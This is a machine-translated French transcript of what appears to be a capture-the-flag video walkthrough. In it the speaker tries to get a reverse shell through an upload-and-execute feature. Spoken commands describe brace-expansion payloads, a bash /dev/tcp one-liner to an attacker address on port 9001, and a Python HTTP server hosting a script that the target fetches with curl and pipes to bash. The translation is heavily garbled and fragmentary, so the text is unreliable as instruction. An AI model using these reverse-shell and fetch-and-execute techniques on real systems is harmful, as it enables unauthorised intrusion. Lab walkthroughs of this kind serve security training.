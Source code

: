 j'ai essayé de coller là ça n'a tout simplement pas
fonctionné  alors collez à nouveau
puis ctrl shift b
upload exec et nous n'obtenons pas de shell
alors maintenant nous pouvons essayer la prochaine chose
qui
irait à l'expansion de l'accolade
pour voir si ce sont tous ces espaces qui
nous ennuient
alors maintenant une charge utile ne '  t avoir des espaces
et nous pouvons
tester une charge utile pour nous assurer qu'il
fonctionne toujours et j'espère
qu'il le fait
oui d  oes
donc c'est maintenant mon presse
-papiers et reviens pour télécharger
cliquez sur
coller
oh nous avons un mauvais caractère ici nous
allons
ctrl shift b upload
exec cela a pris une seconde cette fois mais nous
n'avons toujours pas de shell inversé donc
je sais qu'il y a un  moyen de le faire fonctionner
avec cela, mais
à un moment donné, j'aime juste tracer la
ligne et dire d'accord, je
complique trop cette charge utile
, passons à une charge plus simple, faisons



#  Attempting to use a different one-liner to get a shell

euh une fille de charge utile
10 10 14 4 slash
sample et dirigez-le vers
bash puis dans mon répertoire félin je
vais faire du dub dub
dub en simple et c'est là où on met
le one liner
devtcp 1010 14 4 9001
comme ça
ça a l'air bien j'exécute bash
débarrassons nous de ce bin bash
ah  je n'ai pas besoin de ce bash c en fait
parce que ce script curl est déjà
exécuté dans bash donc je sais que je vais
être dans ce shell
donc le bash c est un peu inutile
là nous allons python3 dash m
serveur http
faisons ça sur  port 8000 je suppose
qu'il est copié allons télécharger la
pâte
avait un mauvais caractère  les acteurs viennent toujours
sur ctrl shift b
téléchargé
exécuté euh
il a fait un get mais nous n'avons pas
encore de shell
donc curl localhost 8080
simple bash jeton inattendu